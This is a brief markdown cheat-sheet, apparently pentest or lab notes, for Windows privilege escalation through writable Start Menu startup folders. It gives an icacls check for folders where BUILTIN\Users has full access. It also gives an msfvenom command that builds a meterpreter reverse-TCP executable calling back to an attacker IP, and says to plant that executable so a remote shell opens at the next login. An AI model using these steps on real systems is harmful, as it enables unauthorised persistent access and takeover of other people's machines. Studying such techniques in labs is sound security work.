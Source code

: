 ## StartUp Applications

### Recon
- To check for access in startup-apps (PowerUp doesn't work here, sometimes need to manually see) :
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\<prog dir name>"
```
- Look for apps where “BUILTIN\Users” group has full access ‘(F)’ to the directory.

### Execution
- Make a rev-shell exe:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
```
- Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\<prog dir name>”.
- Get a rev shell when new login/restart. 
